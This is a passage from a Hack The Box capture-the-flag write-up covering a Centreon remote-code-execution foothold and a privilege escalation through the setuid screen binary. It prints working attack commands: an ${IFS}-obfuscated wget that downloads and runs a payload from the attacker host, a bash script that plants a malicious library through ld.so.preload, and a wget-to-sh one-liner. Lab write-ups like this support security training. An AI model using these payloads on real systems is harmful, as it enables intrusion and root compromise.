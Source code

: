 Replace the command in 47069 with the following command:

```
# echo "wget -O/tmp/vv http://10.10.12.100/vv; chmod +x /tmp/vv; /tmp/vv" | sed 's/ /\$\{IFS\}/g'
wget${IFS}-O/tmp/vv${IFS}http://10.10.12.100/vv;${IFS}chmod${IFS}+x${IFS}/tmp/vv;${IFS}/tmp/vv
```

Let's give it a shot!

```
# python exploit.py http://10.10.10.157/centreon admin password1 10.10.12.100 1234
```


{% include image.html image_alt="bc006b6d.png" image_src="/5273a13f-09e7-460c-86d5-dbeb7c7e49a1/bc006b6d.png" %}


Sweet.

## Privilege Escalation

During enumeration of `www-data`'s account, I noticed a vulnerable version of `screen` was installed.


{% include image.html image_alt="0c657cee.png" image_src="/5273a13f-09e7-460c-86d5-dbeb7c7e49a1/0c657cee.png" %}


The exploit at EDB-ID [41154](https://www.exploit-db.com/exploits/41154) serves our need but to play it safe, I'm compiling the evil library (lines 11-20) and executable (lines 25-32) on my own machine. And since, my SimpleHTTPServer is still running, I can pull these files into the machine with `wget`.

Assuming the library and executable are compiled, the exploit script then becomes like this.

<div class="filename"><span>rootme.sh</span></div>

```bash
#!/bin/bash
HOST=10.10.12.100
wget http://$HOST/libhax.so
wget http://$HOST/rootshell
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/var/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
```

Exploit it on the the machine like so.

```
$ wget -O- http://10.10.12.100/rootme.sh | sh && ./rootshell
```


{% include image.html image_alt="07b2826a.png" image_src="/5273a13f-09e7-460c-86d5-dbeb7c7e49a1/07b2826a.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/208
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/